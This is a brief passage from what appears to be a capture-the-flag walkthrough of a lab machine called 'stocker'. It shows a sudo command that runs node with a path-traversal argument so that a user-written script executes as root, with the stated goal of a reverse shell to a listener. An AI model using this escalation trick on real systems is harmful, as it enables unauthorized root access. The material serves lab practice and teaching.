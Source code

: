 Now start a listner. 
We can execute our payloadlike this.
```bash
angoose@stocker:~$ sudo /usr/bin/node /usr/local/scripts/../../../../home/angoose/root.js
```

We should have a reverse shell.

![](https://imgur.com/NnlOXQ5.png)
